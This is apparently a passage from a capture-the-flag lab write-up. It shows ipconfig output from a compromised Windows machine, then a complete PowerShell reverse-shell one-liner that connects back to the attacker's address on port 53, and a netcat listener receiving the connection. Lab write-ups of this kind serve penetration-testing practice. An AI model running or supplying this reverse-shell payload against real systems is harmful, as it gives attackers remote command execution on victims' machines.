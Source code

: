 ```
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : 08 November 2022 04:03:27
   Lease Expires . . . . . . . . . . : 08 November 2022 07:33:27
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%14
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DHCPv6 IAID . . . . . . . . . . . : 335564886
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-22-AD-9E-CA-00-50-56-B9-50-75
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb

Tunnel adapter isatap..htb:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

C:\Users\nico\Desktop>
```

**Privilege Escalation**

_Additional Priv Esc info_

_Upgrading to powershell and catching the new shell_

{% code overflow="wrap" %}
```
C:\Users\nico\Desktop>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.2',53);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.2',53);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

```
┌──[Tue Nov  8 06:34:32 PM CST 2022]-[TheScriptKid]-[/home/pentester]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: ]
└──# nc -lnvp 53 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.129.15.19.
Ncat: Connection from 10.129.15.19:57585.
```
